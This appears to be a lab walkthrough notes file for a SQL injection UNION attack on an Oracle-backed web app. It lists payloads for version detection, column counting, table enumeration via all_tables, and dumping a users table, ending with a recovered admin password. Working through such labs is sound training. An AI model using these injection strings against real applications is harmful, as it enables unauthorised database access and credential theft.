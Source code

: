 # Goal
- Login as admin

# Preliminary Work
- Get the SQL Version
    - ' UNION SELECT @@version
        - Unsuccessful
    - ' UNION SELECT version()--
        - Unsuccessful
    - [Oracle] ' UNION SELECT BANNER,NULL FROM v$version--
        - SUCCESS
        - ![Oracle Version](./pics/130057.png)  
    - Determine number of columns needed for UNION
        - ' ORDER BY (number)--
            - stop when you get an error
        - ' ORDER BY 3-- yielded error so we know there are 2 columns
            - ALL tables have 2 columns
    - Determine which columns can handle text (to display juicy info)
        - ' UNION SELECT 'a',NULL,NULL,... FROM dual--
            - Oracle requires selection from a table
            - dual is a dummy table that anyone can access :)
        - ' UNION SELECT 'a',NULL FROM dual-- ||| ' UNION SELECT NULL,'a' FROM dual-- both worked
            - both columns support text (good news for username and passwords)

# Looking Through the Database (non-Oracle)
- Get list of table names
    - ' UNION SELECT TABLE_NAME,NULL FROM all_tables--
    - ![](./pics/141930.png)
- CRTL-F 'user' to find potential tables
    - USERS_ELWKUV (worked!)
    - USER$
- Get columns for the tables ()
    - PASSWORD_UOJZWJ | USERNAME_WRUUZC
    - ![](./pics/141953.png)
- Get the column data
    - ' UNION SELECT USERNAME_WRUUZC,PASSWORD_UOJZWJ FROM USERS_ELWKUV--
    - ![](./pics/142008.png)
- Admin Info
    - uname: administrator
    - pword: b4if4ckvox1tsk8wlgjx



